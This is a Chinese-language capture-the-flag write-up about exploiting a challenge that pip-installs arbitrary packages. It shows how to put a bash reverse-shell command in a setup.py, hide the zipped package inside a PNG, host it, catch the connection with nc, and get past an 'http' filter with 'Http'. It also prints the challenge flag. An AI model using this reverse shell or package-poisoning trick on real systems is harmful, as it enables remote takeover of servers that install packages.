 ## 题目描述

可以安装任意包的接口，你会怎么利用呢?

## 解题

根据搜索该题为`RCE`漏洞的利用，本题的主要原理就是`pip`在下载包以后，会自动进行解压然后执行`setup.py`文件，那么可以人为构造一个带有恶意代码的`setup.py`文件，然后把该文件压缩，和`png`图片合在一起上传至公网服务器上，当题目执行`pip`安装包时，会触发我们自己构建的`setup.py`文件中的代码。

解题需求：要求一台具有稳定`ipv4`地址并开启web服务的服务器；

一、构建恶意图片

1、随便找一张图片；

2、构建反弹shell，使出题服务器使用pip安装时自动与我们的服务器建立`tcp`连接

```python
__import__('os').system("bash -c 'bash -i >& /dev/tcp/自己服务器IP地址/端口号 0>&1'")
```

> 解释：
> `bash -c  "cmd string"`  接的是`shell`命令字符串，用引号括起来，运行后面的命令；
> `bash -i` 创建一个交互式`bash`进程
> `>&`    将标准输入和标准错误输出重定向到文件`/dev/tcp/`自己服务器IP地址/端口号;
> `/dev/tcp/`自己服务器IP地址/端口号 一个特殊的设备，打开了这个文件相当于发出了一个`socket`调用，建立一个`socket`连接;
> `0>&1` 将标准输入重定向到标准输出,使我们既能进行输入，又能看到输出
> 注意服务器的端口一定要是开放的

将上面的代码放入`setup.py`中，然后创建一个文件夹（名字英文任取），将`setup.py`放入文件夹，然后压缩文件夹，得到`文件夹.zip`

3、在`windows`电脑的`cmd`窗口上用命令

```powershell
copy /b tupian.png + 文件夹.zip tupian.png 
```

二、上传图片至服务器网站目录

需注意上传的图片一定要能正常访问，可以在浏览器上测试。

三、开始解题

1、先在服务器上使用`nc`命令监听端口

```shell
sudo nc -lvn 端口
```

![image-20240220161135499](assets/piphack/img/image-20240220161135499.png)

2、然后用`nc`连接题目给出的地址

![image-20240220161139217](assets/piphack/img/image-20240220161139217.png)

这里发现题目过滤了`http`，尝试使用`Http`绕过，等待一会儿发现在我们的服务器上已经连接上，说明成功，接下来就是一系列测试命令最终发现`flag{a262d436-704d-402b-881d-c487d7cf945f}`

![image-20240220161144411](assets/piphack/img/image-20240220161144411.png)


